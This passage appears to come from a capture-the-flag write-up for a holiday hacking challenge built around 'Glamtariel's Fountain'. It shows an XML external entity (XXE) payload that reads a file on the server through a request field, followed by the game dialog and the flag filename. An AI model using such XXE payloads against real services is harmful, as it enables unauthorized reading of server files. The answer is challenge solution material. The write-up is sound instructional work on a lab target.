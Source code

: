 The princess tells us here that she thought we were going to give her the silver ring.  She also makes reference to a REQ and TYPE.  Noting that reqType is one of the parameters in the POST content, and the silver ring is image #1 on the web page, we create the following XML request.

``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root[  
	<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt">
]>
<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>&xxe;</reqType>
</root>
```

| Object | Dropped On | Princess | Fountain |
| ------ | ---------- | -------- | -------- |
| silverring.txt| princess | No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations! | Wow, I have never seen that before! She must really trust you! |

Along with the above dialog, we get the following URL reference in the 'visit' parameter.
`https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px`

![](goldring-morethansupertopsecret76394734.png)

??? success "Answer"
    `goldring-morethansupertopsecret76394734.png`